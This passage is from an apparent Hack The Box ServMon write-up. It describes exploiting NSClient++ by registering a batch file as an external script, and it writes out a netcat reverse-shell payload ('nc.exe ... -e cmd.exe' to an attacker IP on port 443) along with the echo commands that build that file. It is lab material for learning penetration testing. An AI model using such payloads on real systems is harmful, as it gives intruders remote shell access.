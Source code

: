![deploy using travis](/assets/img/posts/HTB/ServMon/13.png){:class="img-fluid"}  

-> `Step 3: Create Payload`

As per the exploit poc, we are supposed to create a `.bat` consisting of the below payload and add as an external script to `NSClient++`.

```yml
@echo off
C:\temp\nc.exe 10.10.15.137 443 -e cmd.exe
```
where,

&nbsp; &nbsp; **10.10.15.137**: Listening HOST ( Attacking machine's IP address)

&nbsp; &nbsp; **443**: Listening Port ( Attacking machine's listening port)


**Commands Issued**

```yml
$ echo @off > evilish.bat
$ echo C:\Temp\nc.exe 10.10.15.137 443 -e cmd.exe >> evilish.bat
```
![deploy using travis](/assets/img/posts/HTB/ServMon/14.png){:class="img-fluid"}  

Adding an external script can be acheived by logging in via the web portal availble on port `8443`. However, for some strange reason, the web portal seemt to be very unstable and hence, we'll be following `API` available in documentation of [NSClient_++]() via using curl commands locally.

Under the `Scripts` section API documentation, we were able to discover a method to add an external script via command line. 

